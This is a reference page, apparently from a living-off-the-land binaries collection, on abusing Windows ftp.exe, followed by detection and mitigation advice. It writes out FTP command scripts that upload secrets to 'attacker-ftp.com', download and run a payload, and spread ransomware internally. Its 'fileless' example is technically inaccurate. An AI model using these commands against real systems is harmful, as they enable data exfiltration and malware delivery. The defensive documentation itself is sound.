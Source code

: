 # ftp.exe  
## What is it?  
*```ftp.exe``` is a **built-in Windows command-line tool** used for **File Transfer Protocol (FTP) communication**.*  
*It allows users to connect to FTP servers, upload/download files, and perform remote file management.*  
*Because it's a **trusted Windows binary**, attackers can abuse it for **stealthy data exfiltration and malware retrieval**.*  

## Legitimate Usage  
- **File Transfers** → Upload/download files between local and remote systems.  
- **Website Management** → Manage files on web hosting servers.  
- **Automated Scripting** → Used in batch scripts for scheduled file transfers.  

## How to abuse it  
- **Data Exfiltration** → Stealthily transfer stolen files to an attacker-controlled FTP server.  
- **Malware Download & Execution** → Fetch malicious payloads from a remote server.  
- **Bypassing Security Controls** → Uses a trusted binary that might not be monitored.  
- **Anonymous FTP Access** → Exploit misconfigured servers for hidden data storage.  

## Example Attacks  
### 1. Stealthy Data Exfiltration  
*Attackers can transfer files from the victim machine to an FTP server.*  

```
ftp -n -s:ftp_commands.txt
```

**Content of `ftp_commands.txt`:**  

```
open attacker-ftp.com
user anonymous anonymous
put C:\SensitiveData\secrets.txt
bye
```

**Effect:**  
- Uploads `secrets.txt` to the attacker's FTP server **without user interaction**.  

### 2. Download & Execute Malware  
*Attackers can fetch a malicious file and execute it.*  

```
ftp -n -s:ftp_script.txt
```

**Content of `ftp_script.txt`:**  

```
open attacker-ftp.com
user malware_user pass123
binary
get payload.exe
bye
```
```
payload.exe
```

**Effect:**  
- **Downloads malware** (`payload.exe`) and executes it on the system.  

### 3. Fileless Execution (LOLBas Abuse)  
*Attackers can use FTP in-memory execution to avoid writing files to disk.*  

```
ftp -i -s:ftp_script.txt & start payload.exe
```

- Avoids **dropping files directly** to evade detection.  

### 4. Lateral Movement via FTP  
*Compromised systems can be used to spread malware across a network.*  

```
ftp -n -s:ftp_spread.txt
```

**Content of `ftp_spread.txt`:**  

```
open 192.168.1.50
user admin password123
put ransomware.exe
bye
```

**Effect:**  
- **Uploads ransomware** to another machine inside the network.  

## Detection & Mitigation  
### Detection Methods  
- **Monitor FTP Traffic** → Look for unauthorized external connections.  
- **Detect Automated Scripts** → Track use of `ftp.exe -s` with script files.  
- **Identify Suspicious File Transfers** → Monitor logs for unexpected FTP activity.  

### Mitigation Strategies  
- **Disable `ftp.exe` if Not Needed** → Use `AppLocker` or `WDAC` to block execution.  
- **Use Network Monitoring** → Detect and block unauthorized FTP connections.  
- **Enable Secure Transfers** → Require FTPS/SFTP instead of plain FTP.  
